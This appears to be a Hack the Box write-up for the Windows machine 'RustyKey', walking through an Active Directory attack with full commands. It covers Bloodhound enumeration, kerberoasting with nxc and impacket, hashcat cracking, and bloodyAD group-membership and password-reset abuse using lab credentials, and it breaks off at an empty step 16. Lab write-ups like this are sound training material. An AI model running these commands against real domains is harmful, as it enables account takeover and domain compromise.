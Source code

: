 # RustyKey

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Hard**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/483ca663-e7d2-4944-b26e-5564e6d92d2d)

2. Run bloodhound using given credentials `rr.parker:8#t5HE8L!W3A`

![image](https://github.com/user-attachments/assets/3874dc11-7171-4dd9-9f61-b3472efb00f8)

3. We get an error with LDAP saying it can't find dc.rustykey.htb so add that to `/etc/hosts` file and try again.

`sudo bloodhound-python -d rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -ns 10.129.63.201 -c all`

4. With bloodhound, we find the path to user is through nn.marcos user

![image](https://github.com/user-attachments/assets/22162d58-fed1-421d-a1e1-36a639eef6ba)

5. However, with rr.parker, there is no way to nn.marcos. After much enumeration and dead ends, we try kerberoasting to gain initial access. But we get no results for it

`nxc ldap dc.rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -k --kerberoasting kerberoast.txt`

![image](https://github.com/user-attachments/assets/f06dbd5b-a301-42a9-9034-1a996a147349)

6. Running it again with the debug flag this time, we see that by default, nxc searches only for computers. We change the filter to look for users instead and try again.

![image](https://github.com/user-attachments/assets/1bca6dc5-6fa5-4fc6-aa8b-afbfba610c98)

7. Kerberoasting successful! We got a hash

![image](https://github.com/user-attachments/assets/e4d8528d-03cd-468e-bbde-3ae0a0f6c1df)

8. Crack offline with hashcat

`hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`

9. Hash doesn't crack, so we try kerberoasting with a different method. First, enumerate all usernames with ldapsearch

`ldapsearch -x -H ldap://rustykey.htb -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b "DC=rustykey,DC=htb" "(objectCategory=*)" sAMAccountName | grep '^sAMAccountName:' | cut -d' ' -f2 > accountList`

![image](https://github.com/user-attachments/assets/2f6787e2-1765-4f50-b0d9-c30819116bb2)

10. Then try kerberoasting using impacket's GetUserSPNs.py script using the `-usersfile` flag

`GetUserSPNs.py -usersfile accountList -request -k -dc-ip 10.129.244.92 -dc-host dc.rustykey.htb rustykey.htb/rr.parker:"8#t5HE8L\!W3A" -outputfile kerberoast.txt`

![image](https://github.com/user-attachments/assets/dd7e5e13-5d06-4055-b210-bd046e3d64da)

11. Kerberoasting is a success and we get back 17 hashes. Try cracking them offline once more using hashcat

`hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt`

![image](https://github.com/user-attachments/assets/f791b6a7-ae86-412b-a5ed-ea7dbfe78616)

12. Got the password for machine account IT-Computer3$. Now, check bloodhound and see if there's a path to the machine with this account

![image](https://github.com/user-attachments/assets/61ed86ed-c04a-4ecc-8e1d-e017673e08d4)

13. Yes, there is! So our game plan now will be to add the IT-Computer3$ account to the Helpdesk group, which can change BB.Morgan's password. This will give us access to the DC.Rustykey.htb machine!

14. Add IT-Computer3$ to Helpdesk group via bloodyAD

`sudo python3 /opt/bloodyAD/bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' add groupMember Helpdesk 'IT-Computer3$'`

![image](https://github.com/user-attachments/assets/bc7eb631-1379-4863-89ff-9d9dc105ffdf)

15. Using IT-Computer3$, change bb.morgan's password.

`sudo python3 /opt/bloodyAD/bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' set password bb.morgan Password123`

16. 


